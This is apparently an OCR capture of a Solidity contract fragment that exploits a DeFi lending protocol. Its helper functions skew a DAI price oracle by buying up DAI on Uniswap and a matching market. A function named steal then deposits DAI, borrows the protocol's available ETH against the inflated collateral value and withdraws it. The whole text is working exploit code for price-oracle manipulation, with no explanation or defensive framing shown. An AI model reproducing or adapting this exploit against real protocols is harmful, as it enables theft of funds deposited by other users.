         function skewUniswapPrice() internal {
            DAI.getFromUniswap(DAI.balanceOf(address(DAI.getUniswapExchange())) * 75 / 100);
        }
        
        function skewMatchingMarket() internal {
            uint start = DAI.balanceOf(address(this));
            WETH.deposit.value(address(this).balance)();
            WETH.approve(address(MATCHING_MARKET), uint(-1));
            while (DAI_ORACLE.getEth2DaiPrice() != 0) {
                MATCHING_MARKET.buyAllAmount(DAI, 5000 ether, WETH, uint(-1));
            }
            boughtFromMatchingMarket = DAI.balanceOf(address(this)) - start;
            WETH.withdrawAll();
        }
        
        function steal() external {
            HydroLike.Market memory ethDaiMarket = HYDRO.getMarket(ETHDAI_MARKET_ID);
            HydroLike.BalancePath memory commonPath = HydroLike.BalancePath({
                category: HydroLike.BalanceCategory.Common,
                marketID: 0,
                user: address(this)
            });
            HydroLike.BalancePath memory ethDaiPath = HydroLike.BalancePath({
                category: HydroLike.BalanceCategory.CollateralAccount,
                marketID: 1,
                user: address(this)
            });
            
            uint ethWanted = HYDRO.getPoolCashableAmount(HYDRO_ETH);
            uint daiRequired = ETH_ORACLE.getPrice(HYDRO_ETH) * ethWanted * ethDaiMarket.withdrawRate / DAI_ORACLE.getPrice(DAI) / 1 ether + 1 ether;
            
            printf("ethWanted=%.18u daiNeeded=%.18u\n", abi.encode(ethWanted, daiRequired));
            
            HydroLike.Action[] memory actions = new HydroLike.Action[](5);
            actions[0] = HydroLike.Action({
                actionType: HydroLike.ActionType.Deposit,
                encodedParams: abi.encode(address(DAI), uint(daiRequired))
            });
            actions[1] = HydroLike.Action({
                actionType: HydroLike.ActionType.Transfer,
                encodedParams: abi.encode(address(DAI), commonPath, ethDaiPath, uint(daiRequired))
            });
            actions[2] = HydroLike.Action({
                actionType: HydroLike.ActionType.Borrow,
                encodedParams: abi.encode(uint16(ETHDAI_MARKET_ID), address(HYDRO_ETH), uint(ethWanted))
            });
            actions[3] = HydroLike.Action({
                actionType: HydroLike.ActionType.Transfer,
                encodedParams: abi.encode(address(HYDRO_ETH), ethDaiPath, commonPath, uint(ethWanted))
            });
            actions[4] = HydroLike.Action({
                actionType: HydroLike.ActionType.Withdraw,
                encodedParams: abi.encode(address(HYDRO_ETH), uint(ethWanted))
            });
            DAI.approve(address(HYDRO), daiRequired);
            HYDRO.batch(actions);
        }
        